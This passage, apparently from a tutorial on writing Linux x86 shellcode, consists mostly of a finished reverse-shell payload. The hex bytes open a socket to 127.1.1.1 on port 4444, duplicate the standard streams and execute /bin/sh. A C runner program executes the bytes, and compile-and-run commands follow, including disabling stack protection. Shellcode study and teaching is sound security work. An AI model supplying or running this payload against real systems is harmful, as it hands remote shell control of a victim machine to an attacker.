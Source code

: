 So, our shellcode is:            
```bash
"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1
\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x11\x5c
\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80
\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b
\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e
\x89\xe3\xcd\x80"
```

Then, replace the code at the top (`run.c`) with:
```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = 
"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89"
"\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68"
"\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1"
"\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49"
"\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;
}
```

Compile, prepare listener and run:          
```bash
gcc -z execstack -m32 -o run run.c
./run
```

![run C code](./images/14/2021-10-16_14-03.png){width="80%"}       
